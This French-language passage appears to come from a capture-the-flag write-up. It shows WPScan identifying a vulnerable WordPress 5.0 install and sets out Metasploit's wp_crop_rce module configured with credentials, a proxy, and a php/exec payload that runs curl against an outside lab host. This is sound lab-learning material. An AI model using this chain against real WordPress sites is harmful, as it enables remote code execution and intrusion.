 ```shellsession
[+] URL: http://127.0.0.1:1337/wordpress/ [127.0.0.1]

Interesting Finding(s):
--- snip ---

[+] WordPress version 5.0 identified (Insecure, released on 2018-12-06).
 | Found By: Emoji Settings (Passive Detection)
 |  - http://127.0.0.1:1337/wordpress/, Match: 'wp-includes\/js\/wp-emoji-release.min.js?ver=5.0'
 | Confirmed By: Meta Generator (Passive Detection)
 |  - http://127.0.0.1:1337/wordpress/, Match: 'WordPress 5.0'
```

Cette version est vulnérable à une faille décrite ici concernant le traitement des images : [The detailed analysis of WordPress 5.0 RCE](https://medium.com/@knownsec404team/the-detailed-analysis-of-wordpress-5-0-rce-a171ed719681)

Metasploit dispose d'un module nommé exploit/multi/http/wp_crop_rce :

> This module exploits a path traversal and a local file inclusion vulnerability on WordPress versions 5.0.0 and <= 4.9.8.
> 
> The crop-image function allows a user, with at least author privileges, to resize an image and perform a path traversal by changing the _wp_attached_file reference during the upload.
> 
> The second part of the exploit will include this image in the current theme by changing the _wp_page_template attribute when creating a post.
> 
> This exploit module only works for Unix-based systems currently.

Metasploit a un format particulier pour spécifier les proxies, il faut faire attention :

```
msf6 exploit(multi/http/wp_crop_rce) > show options

Module options (exploit/multi/http/wp_crop_rce):

   Name       Current Setting          Required  Description
   ----       ---------------          --------  -----------
   PASSWORD   jerome                   yes       The WordPress password to authenticate with
   Proxies    http:192.168.56.82:8080  no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS     127.0.0.1                yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/Using-Metasploit
   RPORT      1337                     yes       The target port (TCP)
   SSL        false                    no        Negotiate SSL/TLS for outgoing connections
   TARGETURI  /wordpress/              yes       The base path to the wordpress application
   THEME_DIR                           no        The WordPress theme dir name (disable theme auto-detection if provided)
   USERNAME   jerome                   yes       The WordPress username to authenticate with
   VHOST                               no        HTTP server virtual host


Payload options (php/exec):

   Name  Current Setting                    Required  Description
   ----  ---------------                    --------  -----------
   CMD   curl http://192.168.56.79/success  yes       The command string to execute


Exploit target:

   Id  Name
   --  ----
   0   WordPress

```